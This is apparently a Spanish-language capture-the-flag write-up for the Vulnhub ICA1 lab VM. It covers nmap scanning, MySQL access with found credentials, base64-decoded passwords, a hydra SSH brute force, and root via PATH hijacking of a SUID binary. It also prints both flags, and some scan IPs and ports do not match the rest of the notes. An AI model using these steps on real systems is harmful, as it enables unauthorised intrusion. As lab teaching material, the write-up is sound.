 # Summary
- IP: 192.168.0.112
- Ports: 22,80,3306,33060
- OS: Linux (Debian )
- Services & Applications:
	-  22 -> OpenSSH 8.4p1 Debian 5
	-  80 -> Apache httpd 2.4.48
	-  3306-> MySQL 8.0.26
	-  33060 -> mysqlx?

# Recon

- Configuración de interfaz de red para que Vmware detecte la máquina en la misma red bridge:
 tecla E
 rw init=/bin/bash
 etc/network
 interfaces ---> corregir nombre de interfaz
 reiniciar

- Escaneo básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p21,80,2222 -sCV 10.10.129.26 -oN targeted
```

- Escaneo básico de página web:

```
$nmap --script http-enum -p80 192.168.0.112 -oN webScan
```

- Buscamos exploits para qdpm 9.2:

```
$searchsploit qdpm 9.2
```
- Encontramos credenciales para entrar a una base de datos:

```
$mysql -h 192.168.0.112 -u qdpmadmin -p
```

-  Analizamos las tablas:

```
show databases;
use staff;
show tables;
select * from user;
select * from login;
```

- Obtenemos usuarios potenciales y contraseñas al parecer encriptadas en base 64, guardamos los usuarios y probamos cada contraseña desencriptada para realizar ataque por fuerza bruta a SSH con hydra:

- Para desencriptar base 64;

```
$echo "REpjZVZ5OThXMjhZN3dMZw=" | base64 -d; echo
```

- Podemos hacer un diccionario con cada usuario y contraseña para realizar el ataque de fuerza bruta:

```
$hydra -L /home/dante/Vulnhub/ICA1/content/usuarios.txt -p DJceVy98W28Y7wLg ssh://192.168.0.112
```

- Encontramos credenciales SSH para dos usuarios: dexter y travis, como el usuario dexter no encontramos nada interesante; con el usuario travis encontramos la flag de usuario:

#  USER FLAG: ICA{Secret_Project}

# ESCALANDO PRIVILEGIOS:

- Hacemos sudo -l pero no encontramos nada, buscamos binarios con permisos SUID y encontramos uno curioso "/opt/get_access":

```
find / -perm -4000 2>/dev/null
```

- lo analizamos:

```
file /opt/get_access
strings /opt/get_access
```

- Nos damos cuenta que en una parte del binario ejecuta el comando cat, el cual usaremos para que ejecute un cat modificado por nosotros que crearemos en el duirectorio temp, el cual otorgará permisos SUID a la bash:
 ```
 touch cat
 chmod +x cat
 nano cat
 chmod u+s /bin/bash
 ```

- Modificamos el PATH para que ejecute nuestro cat y no el nativo del sistema:

```
echo $PATH
export PATH=/tmp:$PATH
```

- Ejecutamos el binario y la bash ahora tendrá permisos de SUID, lo que podemos comprobar y ejecutar:

```
ls -l /bin/bash
bash -p
```

# ROOT FLAG: ICA{Next_Generation_Self_Renewable_Genetics}
